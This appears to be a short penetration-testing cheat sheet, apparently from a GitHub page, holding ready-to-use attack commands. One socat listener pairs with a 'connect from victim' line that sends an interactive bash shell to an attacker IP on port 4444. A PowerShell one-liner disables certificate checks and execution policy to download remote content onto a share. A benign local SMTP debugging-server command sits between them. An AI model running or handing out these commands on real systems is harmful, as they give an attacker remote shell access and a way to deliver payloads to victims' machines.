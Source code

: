 <h3>Spawn tty</h3>

listener on your machine:
socat file:\`tty\`,raw,echo=0 tcp-listen:4444 

connect from victim
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.18:4444 

<h3>SMTP Server</h3>
sudo python -m smtpd -n -c DebuggingServer localhost:25

<h3>Powershell v2 HTTPS GET Request </h3>

"cmd.exe /c powershell.exe  -ExecutionPolicy unrestricted -Command "[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true};(New-Object Net.WebClient).DownloadString(\"https://site\")" > \\\share"
